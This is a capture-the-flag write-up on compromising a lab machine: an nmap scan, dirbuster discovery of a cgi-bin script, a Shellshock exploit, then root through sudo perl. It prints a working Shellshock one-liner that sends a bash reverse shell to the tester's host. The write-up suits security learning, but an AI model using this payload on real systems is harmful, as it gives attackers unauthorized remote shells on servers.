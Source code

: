 ![banner](https://imgur.com/obIMPNK.png)

<h2>Nmap scan</h2>


![port scan](https://imgur.com/MujmPSg.png)


From the port scan, we see 2 ports open. The service running on port 2222 is OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) and it requires a key so its to safe to say that we can cross out any ssh methods of pwning this box. And the service running on port 80 is Apache httpd 2.4.18 ((Ubuntu)) meaning we will find a website if we enter the ip in firefox or any search engine.

<h2>Website</h2>

![webpage](https://imgur.com/Rw7vPe4.png)

Didn't expect to find this but there are weirder-looking websites out there. So first thing is to check the page source and use the inspect element to see if there are any clues.

![page source](https://imgur.com/R9bKrxh.png)

Ye that was to be expected this is the most complicated website using some js framework. 
 
My next thought was to see if there are any web directories using `dirbuster`.

![dirbscan](https://imgur.com/MQ3z38w.png)

And we can see from our scan a `cgi-bin` directory. And after some googling of the common file types, we can tell dirbuster to look for certain files that end with .sh,.bin,.cgi.

Here are some example files: 
https://github.com/digination/dirbuster-ng/blob/master/wordlists/vulns/cgis.txt

And seems like we found something a bash script.

![user.sh](https://imgur.com/03tFgIo.png)

<h2>Bash Script</h2>


Using `wget http://10.10.10.56:80/cgi-bin/user.sh` I pulled the file to my machine to take a look. 

![script contents](https://imgur.com/4Bm571L.png)

And it looks like just a script that keeps a track of how long the machine is running.

Okay cool, so the next step is to find out wtf we can do with this.

<h2>The exploit</h2>

After some googling of readable bash scripts in cgi-bin exploits, I came across shellshock exploit. 

https://www.yeahhub.com/shellshock-vulnerability-exploitation-http-request/

Using `wget -U '() { :;}; /bin/bash -c "sh -i >& /dev/tcp/10.10.14.5/4444 0>&1"' http://10.10.10.56:80/cgi-bin/user.sh`

We can get a reverse shell back on my machine

![exploit](https://imgur.com/fVlFJi3.png)
![listener](https://imgur.com/aSrX9QT.png)

<h2>User Flag</h2>

Now that we have access to the machine we can find the user flag in the shellys home folder.

![user flag](https://imgur.com/P2U7DMR.png)

<h2>Root Flag</h2>

Next is to get the root flag, first I check the permissions that the user we are signed in as, I did this by using the `sudo -l` and this was the output.

![sudo -l](https://imgur.com/LzRyASz.png)

So we can execute perl with sudo and using this info I looked into [gtfobins](https://gtfobins.github.io/#) for the command that elevates me to root


![priv sec](https://imgur.com/n6PnUrh.png)

And we rooted the machine!